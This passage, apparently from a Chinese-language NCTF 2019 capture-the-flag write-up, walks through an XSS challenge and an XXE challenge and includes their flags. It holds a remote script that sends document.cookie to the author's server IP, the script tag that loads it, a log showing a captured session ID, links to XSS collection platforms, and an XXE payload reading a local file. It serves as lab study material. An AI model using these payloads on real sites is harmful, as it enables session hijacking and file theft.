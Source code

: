 但几次实验后，发现对js的长度是有限制的。  

（以为是对js的一些函数进行了过滤，但实际上并没有）  

之后尝试加载远程js的方式：在自己的服务器上放了个xss.js，代码如下：  

```javascript
root@vultr:~# cat /var/www/html/xss.js

window.location.href="http://45.32.9.0?cook="+escape(document.cookie);
```

(经过试验，encodeURI这个方法并不能完整地传回cookie，还是使用escape方法)之前使用了GET方法向服务器传了很多cookie参数，所有这次用cook参数  

给题目中自己创建的用户发送xss消息如下

```html
<script src=http://45.32.9.0/xss.js></script>
```

查看服务器端的访问日志`/var/log/apache2/access.log`发现成功进行了跳转和接收cookie。（cook后面的内容就是sessionID）  

```bash
root@vultr:~# cat /var/log/apache2/access.log | grep cook=

59.64.129.66 - - [23/Nov/2019:18:33:06 +0000] "GET /?cook=PHPSESSID%3Dd1a1febd6814437dbad2a31e7694f8e7%3B%20user%3D34907cfa1ba4fba6e777c6b7e2806f49 HTTP/1.1" 200 812 "http://nctf2019.x1ct34m.com:40001/home.php" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0"
```

但是用这个方法给admin传xss，并没有收到admin的cookie...  

#### 尝试2

刚才的思路专业一点，就成为了XSS平台。这个平台可以加载各种各样的xss，并在平台上接收不小心点击XSS的人的信息，只要你在具有XSS漏洞的网站上复制了特定的代码。

[XSS平台-安全测试](http://xsspt.com/index.php)  

[另一个平台](https://xsshs.cn/xss.php)

`NCTF{Th1s_is_a_Simple_xss}`

### Fake XML Cookbook

很简单的题目，但之前没学过xxe，趁这个机会学习一次。  

直接改POST即可。注入一个恶意的外部实体，使用file协议，根据题目提示读取flag。  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

<user><username>&xxe;</username><password>asd</password></user>
```

`NCTF{W3lc0m3_T0_NCTF_9102}`

### TRUE XML cookbook
